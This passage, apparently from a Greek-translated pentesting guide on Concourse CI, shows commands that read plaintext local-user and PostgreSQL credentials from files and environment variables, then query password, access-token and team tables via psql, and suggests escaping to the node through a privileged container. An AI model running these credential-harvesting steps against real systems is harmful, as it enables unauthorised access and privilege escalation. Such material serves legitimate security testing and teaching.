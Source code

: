 Ωστόσο, αποθηκεύει **τοπικά διαπιστευτήρια σε απλό κείμενο**:
```bash
cat /concourse-auth/local-users
test:test

env | grep -i local_user
CONCOURSE_MAIN_TEAM_LOCAL_USER=test
CONCOURSE_ADD_LOCAL_USER=test:test
```
Μπορείτε να χρησιμοποιήσετε αυτά τα διαπιστευτήρια για να **συνδεθείτε στον web server** και **να δημιουργήσετε ένα προνομιούχο container και να διαφύγετε στον κόμβο**.

Στο περιβάλλον μπορείτε επίσης να βρείτε πληροφορίες για να **πρόσβαση στο postgresql** instance που χρησιμοποιεί το concourse (διεύθυνση, **username**, **password** και βάση δεδομένων μεταξύ άλλων πληροφοριών):
```bash
env | grep -i postg
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_ADDR=10.107.191.238
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_PORT=5432
CONCOURSE_RELEASE_POSTGRESQL_SERVICE_PORT_TCP_POSTGRESQL=5432
CONCOURSE_POSTGRES_USER=concourse
CONCOURSE_POSTGRES_DATABASE=concourse
CONCOURSE_POSTGRES_PASSWORD=concourse
[...]

# Access the postgresql db
psql -h 10.107.191.238 -U concourse -d concourse
select * from password; #Find hashed passwords
select * from access_tokens;
select * from auth_code;
select * from client;
select * from refresh_token;
select * from teams; #Change the permissions of the users in the teams
select * from users;
```
#### Κατάχρηση της Υπηρεσίας Garden - Όχι πραγματική Επίθεση

{% hint style="warning" %}
Αυτές είναι απλώς μερικές ενδιαφέρουσες σημειώσεις για την υπηρεσία, αλλά επειδή ακούει μόνο στο localhost, αυτές οι σημειώσεις δεν θα παρουσιάσουν κανένα αντίκτυπο που δεν έχουμε ήδη εκμεταλλευτεί πριν
{% endhint %}

Από προεπιλογή, κάθε concourse worker θα εκτελεί μια υπηρεσία [**Garden**](https://github.com/cloudfoundry/garden) στην θύρα 7777. Αυτή η υπηρεσία χρησιμοποιείται από τον Web master για να υποδείξει στον worker **τι πρέπει να εκτελέσει** (να κατεβάσει την εικόνα και να εκτελέσει κάθε εργασία). Αυτό ακούγεται αρκετά καλό για έναν επιτιθέμενο, αλλά υπάρχουν μερικές καλές προστασίες:

* Είναι απλώς **εκτεθειμένο τοπικά** (127.0.0.1) και νομίζω ότι όταν ο worker αυθεντικοποιείται με τον Web μέσω της ειδικής υπηρεσίας SSH, δημιουργείται ένα τούνελ ώστε ο web server να μπορεί να **μιλήσει με κάθε υπηρεσία Garden** μέσα σε κάθε worker.
* Ο web server **παρακολουθεί τα τρέχοντα containers κάθε λίγα δευτερόλεπτα**, και τα **απροσδόκητα** containers **διαγράφονται**. Έτσι, αν θέλετε να **εκτελέσετε ένα προσαρμοσμένο container** πρέπει να **παραποιήσετε** την **επικοινωνία** μεταξύ του web server και της υπηρεσίας garden.
